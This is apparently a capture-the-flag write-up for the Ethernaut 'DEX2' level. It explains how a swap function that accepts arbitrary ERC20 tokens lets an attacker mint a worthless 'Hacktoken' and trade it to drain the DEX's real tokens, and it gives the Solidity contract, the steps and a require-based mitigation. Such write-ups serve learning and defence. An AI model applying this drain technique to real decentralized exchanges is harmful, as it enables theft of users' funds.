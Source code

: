 ```yaml
---
title: Level 23 - DEX2
slug: level-23
published: 05-22-2023
lastEdited:
---
```


## Objectives

## Vulnerabilities

### Swap open to any ERC20 tokens

The `swap` function is available to any ERC20 tokens. It is therefore easy to create yout own ERC20 and some to your EOA
and some to the DEX2 contract. With this you can swap your worthless tokens for the real ones.

## Exploit

1. Write and deploy a new ERC20 token. Given mint a small amount to the DEX2 contract and a big amount to yourself.
   You can use this hack contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Hacktoken is ERC20 {
    constructor(address _targetAddress) ERC20("Hack Token", "HT") {
        _mint(msg.sender, 1000);
        _mint(_targetAddress, 1);
    }
}
```

2. Approve the amount of Hack tokens your need to transfer to get 100 token 1.

3. Swap that amount to steal all of token 1.

4. Repeat step 2 and 3 for token 2.

## Suggested mitigation

1. Add back the `require` that was taken out from level 22.

```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

## Further reading

